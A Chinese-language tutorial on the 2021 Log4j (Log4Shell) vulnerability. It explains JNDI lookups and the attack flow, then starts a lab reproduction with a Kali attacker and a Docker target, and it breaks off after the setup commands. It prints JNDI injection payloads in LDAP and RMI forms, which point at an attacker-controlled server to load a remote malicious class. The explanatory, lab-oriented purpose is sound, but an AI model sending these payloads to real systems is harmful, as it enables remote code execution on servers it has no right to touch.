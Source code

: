  ```
 2021年12月10日，公布了apache 的 log4j漏洞，影响甚广，引得圈内热闹非凡。

<img src="漏洞利用\log4j (2).png" alt="log4j (2)" style="zoom: 50%;" />

### 原理

log4j为java技术栈中，常用的日志框架。在编写程序时，常常需要在日志中输出程序中的一些变量进行查看，测试程序的正确性。
log4j的强大之处在于，除了可以输出程序中的变量，它还提供了Lookups接口，可以用来输出更多内容。感兴趣的同学可以进入该网址了解：<https://logging.apache.org/log4j/2.x/manual/lookups.html>

<img src="漏洞利用\log4j (3).png" alt="log4j (3)" style="zoom:75%;" />

而该强大的功能是通过JNDI注入来完成的，具体的有RMI协议的方式和LDAP协议等不同方式。JNDI(Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了**查找和访问各种命名和目录服务**的通用、统一的接口，类似JDBC都是构建在抽象层上。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。过于强大的功能使得远程命令/代码执行漏洞（remote command/code execute，RCE）和Java反序列化漏洞的双重作用下，形成log4j漏洞。

<img src="漏洞利用\log4j (4).png" alt="log4j (4)" style="zoom:61%;" />

**攻击流程**

![log4j (5)](漏洞利用\log4j (5).png)

1.攻击伪装一个请求体，里面含有JNDI可执行的服务, 主要是LDAP与RMI两种协议，请求URL如下。

```
 ${jndi:ldap://127.0.0.1:1389/Exploit}

 ${jndi:rmi://127.0.0.1:1389/Exploit}
```

2.在应用程序恰巧输出了请求头或者入参的log日志时,就会触发此URL的请求，并主动请求了攻击者准备的LADP/RMI服务。

3.利用LADP/RMI的特性，伪装返回值，含有要执行的恶意Class文件地址，与Class类名。

4.被攻击的服务器找不到对应Class文件就会触发JNDI的机制从远程服务器中下载Class。

5.用我们事先准备好的web服务给被攻击服务器提供可执行Class文件下载，被攻击服务器拿到到Class文件后会触发反序列化执行代码，达到了远程执行代码的目的漏洞复现。

### 实践
* **实验环境**

  攻击机：kali	ip 192.168.180.130

  靶机：雷石安全实验室搭建的漏洞靶场

* **步骤**
  
  * 第一步：雷石安全实验室搭建的漏洞靶场docker-compose.yml地址：

​			https://github.com/fengxuangit/log4j_vuln

​			或者直接运行命令搭建docker对象（需要提前安装好docker）。

  ```bash
docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cn-   hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh
  ```

